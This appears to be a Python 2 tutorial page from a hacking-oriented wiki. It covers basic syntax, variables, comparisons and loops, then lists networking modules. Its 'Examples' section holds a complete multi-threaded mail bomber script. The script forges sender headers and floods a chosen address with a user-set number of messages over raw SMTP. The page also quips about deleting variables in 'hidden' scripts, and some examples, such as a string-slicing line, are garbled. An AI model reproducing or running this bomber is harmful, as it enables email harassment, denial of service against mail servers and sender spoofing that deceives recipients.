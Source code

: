 Below applies to Python 2.6 or lower, Python 3 is a good bit different.

Python is an object oriented, interpreted language. It is unique in that it requires a user to indent in place of using curly brackets ({..}).

Note: that most *nix distributions come with Python by default.

## Basics ##

_Basic_ python syntax

### Hello World! ###

    >>> print "HELLO WORLD!"
    HELLO WORLD!

### Variables ###

Variable names DO NOT need to begin with a special character, unlike PHP. Variable names CAN, however, be any combination, as long as the word isn't reserved (Ex: and, or, print), of letters and numbers.

    >>> #Numbers
    >>> a = 1 #Declare A as 1
    >>> b = a+5 #b becomes 6, while a remains 1
    >>> a += 5 #a is overwritten, and becomes 6
    >>> c = b = a #c and b are overwritten and become 6
    >>> #Strings
    >>> a = "Hello "
    >>> b = "There"
    >>> c = a+b #JOIN STRINGS
    >>> a = "Blue Yellow Green Red".split(" ") #Split the string at every " "
    >>> a #Output 'a' to the screen, same as print or print()
    ['Blue', 'Yellow', 'Green', 'Red'] #List object, another type of variable
    >>> _.join(a) #Join all the list objects as one_
    'BlueYellowGreenRed'
    >>> a = 'Blue Green Yellow Red'[0:4] #This returns the sub-string 'Blue'
    >>> a = 'Blue Green Yellow Red'[5:] #This returns the sub-string 'Green Yellow Red'
    >>> a = 'a = 'Blue Green Yellow Red'[::2] #This returns the sub-string _Bu re elwRd'_
    >>> #Float 
    >>> a = 88.2
    >>> b = 88
    >>> print a/25
    3.528
    >>> print b/25
    3
    >>> #Other types
    >>> a = (" ", 355, 256.7, ["Hello", "World"])
    >>> type(a)
    <type 'tuple'>
    >>> a = {"Hello":"World", "Key":"Value"}
    >>> type(a)
    <type 'dict'>
    >>> a = "Anhero"
    >>> del a #Its a good idea, if you're making a 'hidden' script, to delete variables after you use them...

## Statements ##


### Comparison ###

<pre>
 <       Less than
 >       Greater than
 ==      Equal to
 !=      Not equal
 is      Identical
 is not  Not identical
 <=      Less than or equal to
 >=      Greater than or equal to
</pre>


#### If ####

    >>> a = 1
    >>> b = 2
    >>> if a != b:
    	print "No!"
     	
    No!
    >>> a = 1
    >>> b = 1
    >>> if a == b:
    	print "Yes!"
    	
    Yes!
    >>> a = 1
    >>> b = 5
    >>> if (a == b-len("....")/1) and "a" == "a" or "b" == "b":
    	print "Yes!"
     	
    Yes!

### Loops ###


#### While ####

    >>> a = 1
    >>> while a < 5: #Note, replacing '<' with '<=' allows it to reach 5, instead of stopping at 4
    	print a
    	a += 1;
	
    1
    2
    3
    4
    >>> a = False;
    >>> while a == False:
    	print "False"
    	a = True;
    	
    False

#### For ####

    >>> for x in range(0, 10):
    	print x
    	
    0
    1
    2
    3
    4
    5
    6
    7
    8
    9

_consider using xrange when dealing with larger lists, as it creates an iterator, rather than constructing the full list in memory_

    >>> for x in ['Hello', 'world', ',this', 'is', 'a', 'list']:
    	print x
    	
    Hello
    world
    ,this
    is
    a
    list

## Examples ##


### Multi-Threaded Mail Bomber ###

```python
    #CREATED BY: DUMP 
    #MULTI THREADING ALLOWS FOR A CLASS TO BE RUN MULTIPLE TIMES AT ONCE.
    #INCLUDES SMTP ENGINE, AND MAIL HEADER GEN. THAT FOLLOWS RFC STARDARDS
    import socket, datetime, time, threading;
    class MailGen():
        def Engine(self, To, From, Subject, Data):
            self.lf = "\r\n";
            return "From: \""+From.split("@")[0]+"\" <"+From+">"+self.lf+"Return-Path: "+From+self.lf+"Sender: "+From+self.lf+"Recieved: "+From.split("@") [1].capitalize()+":25"+self.lf+"To: \""+To.split("@")[0]+"\" <"+To+">"+self.lf+"Subject: "+Subject+self.lf+"Date:  "+datetime.datetime.now().strftime("%a, %d %d %Y %H:%S")+self.lf+self.lf+Data
    class MailBomb(threading.Thread):
        def __init__(self, To, From, Data):
            self.To = To;
            self.From = From;
            self.Data = Data;
            threading.Thread.__init__ ( self )
        def run(self):
            print "THREAD LAUNCHED";
            self.lf = "\r\n";
            self.connection = socket.socket(socket.AF_INET, socket.SOCK_STREAM);
            self.connection.connect((self.To[self.To.index("@")+1:len(self.To)], 25));
            self.connection.send("HELO"+self.lf); self.connection.recv(1024);
            self.connection.send("MAIL FROM: "+self.From+self.lf); self.connection.recv(1024);
            self.connection.send("RCPT TO: "+self.To+self.lf); self.connection.recv(1024);
            self.connection.send("DATA"+self.lf); self.connection.recv(1024);
            for line in self.Data: self.connection.send(line);
            self.connection.send(self.lf+self.lf+"."+self.lf); self.connection.recv(1024);
            self.connection.send("QUIT"+self.lf); self.connection.close();
    address1 = raw_input("To E-mail: ");
    address2 = raw_input("From E-mail: ");
    data1 = raw_input("Subject: ");
    data2 = raw_input("Data: ");
    generator = MailGen();
    message = generator.Engine(address1, address2, data1, data2);
    multiply = int(raw_input("Amount Sent (0, 5, 10...): "));
    lists = [address1]*multiply;
    for a in range(0, multiply, 5):
        for b in range(a, a+5):
            MailBomb(lists[b], address2, message).start();
        time.sleep(.50);
```
## Modules ##


### Scapy ###

Scapy is a powerful, low-level, networking tool

### DPKT ###

fast, simple packet creation / parsing, with definitions for the basic TCP/IP protocols. 

### Twisted ###

[Twisted](http://twistedmatrix.com/trac/) is an event-driven networking engine written in Python and licensed under the MIT license.

### Tornado Web ###

[Tornado](http://www.tornadoweb.org/) is an open source version of the scalable, non-blocking web server and tools that power FriendFeed. The FriendFeed application is written using a web framework that looks a bit like web.py or Google's webapp, but with additional tools and optimizations to take advantage of the underlying non-blocking infrastructure.

## Links ##

* [Python Documentation](http://docs.python.org/)
* [Download Python](http://www.python.org/download/)

